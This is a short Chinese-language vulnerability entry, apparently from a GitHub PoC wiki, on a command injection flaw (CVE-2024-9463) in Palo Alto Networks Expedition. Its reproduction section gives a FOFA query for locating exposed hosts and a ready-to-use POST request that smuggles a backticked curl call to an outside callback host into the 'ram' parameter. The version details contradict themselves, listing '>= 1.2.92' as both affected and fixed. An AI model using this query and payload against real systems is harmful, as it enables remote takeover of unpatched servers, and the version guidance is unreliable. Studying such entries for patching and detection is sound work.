

# Palo Alto Networks Expedition 远程命令执行漏洞(CVE-2024-9463) 

# 漏洞描述

Palo Alto Networks Expedition convertCSVtoParquet 接口存在远程命令执行漏洞。恶意攻击者可以利用该漏洞远程执行任意命令，获取系统权限。

# 影响版本

Palo Alto Networks Expedition >= 1.2.92

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="Expedition Project"

POC/EXP：

POST /API/convertCSVtoParquet.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

ram=watchTowr`curl+http://qpfkpol8.eyes.sh`

# 修复方案

针对此漏洞,官方已经发布了漏洞修复版本,请立即更新到安全版本:
Palo Alto Networks Expedition >= 1.2.92

下载链接:
https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool

安装前,请确保备份所有关键数据,并按照官方指南进行操作。安装后,进行全面测试以验证漏洞已被彻底修复,并确保系统其他功能正常运行

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
